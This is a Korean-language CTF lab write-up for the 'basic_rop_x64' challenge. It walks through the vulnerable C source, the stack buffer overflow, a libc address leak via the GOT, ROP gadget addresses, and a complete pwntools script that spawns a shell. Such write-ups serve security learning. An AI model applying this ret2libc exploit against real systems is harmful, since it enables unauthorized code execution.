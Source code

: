 basic_rop_x64 라이트업
=================

## 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.



### 버퍼 오버플로우

* buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.
* buf가 할당된 64바이트 뒤에는 8바이트의 sfp와 8바이트의 ret이 위치한다.
* 'A'를 72바이트만큼 입력해서 buf, sfp를 더미 값으로 덮고 ret을 원하는 값으로 설정해서 바이너리의 실행 흐름을 조작할 수 있다.


## 익스플로잇 시나리오


### system 함수 주소 계산

* ASLR이 걸려있기 때문에 system 함수의 주소는 계속 변하게 되지만 Base 주소 + system 함수의 오프셋을 통해 system 함수의 주소를 구할 수 있다.
* read 함수의 주소 - read 함수의 오프셋을 하면 Base 주소를 구할 수 있다.
* read 함수가 실행된 이후 read 함수의 주소는 GOT에 등록되어 있기 때문에 read 함수의 GOT 값을 읽으면 read 함수의 주소를 구할 수 있다.

------------

### "bin/sh" 문자열

* system("bin/sh") 를 실행하기 위해서는 "bin/sh" 문자열이 필요하다.
* system 함수와 동일하게 Base 주소 + "bin/sh" 문자열 오프셋으로 주소를 구해야 한다.


## 가젯 주소 구하기

<img width="1390" height="132" alt="image" src="https://github.com/user-attachments/assets/097eb4bc-2af0-436e-a766-cd10f46ed742" />


* pop rsi 가젯의 주소는 0x400881
* pop rdi 가젯의 주소는 0x400883

<img width="561" height="105" alt="image" src="https://github.com/user-attachments/assets/e0f0a60f-7e8e-404b-9bde-52b0c0464a85" />

ret 가젯의 주소는 0x4005a9




## 익스플로잇 코드


```python
from pwn import *

def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

p = process("./basic_rop_x64")
e = ELF("./basic_rop_x64")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64", checksec=False)
r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload:bytes = b'A' * 0x48

payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)

payload += p64(main)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6)+b'\x00'*2)
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb

slog("read", read)
slog("libc base", lb)
slog("system", system)
slog("/bin/sh", binsh)

payload: bytes = b'A' * 0x48

payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```


### 실행 결과

<img width="952" height="198" alt="image" src="https://github.com/user-attachments/assets/116474c3-327b-4b87-b69c-3e8a69b17934" />
